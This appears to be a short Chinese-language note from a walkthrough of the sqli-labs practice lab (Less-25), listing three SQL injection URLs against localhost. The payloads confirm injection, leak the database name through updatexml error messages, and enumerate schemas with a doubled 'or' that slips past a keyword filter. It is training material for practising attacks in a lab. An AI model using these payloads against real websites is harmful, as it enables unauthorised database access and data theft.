

# Less-25_03
1. http://127.0.0.1/sqli/Less-25/?id=-1‘  || 1=1--+ 判断存在注入
2. http://127.0.0.1/sqli/Less-25/?id=-1‘  || updatexml(1,concat(0x7e,(database()),0x7e),1)--+ 爆出当前数据库
3. http://127.0.0.1/sqli/Less-25/?id=-1‘  || updatexml(1,concat(0x7e,(select schema_name from infoorrmation_schema.schemata limit 0,1),0x7e),1)--+ 遍历爆出所有的数据，继续使用即可，这里不可以使用group_concat()，因为数据显示不完整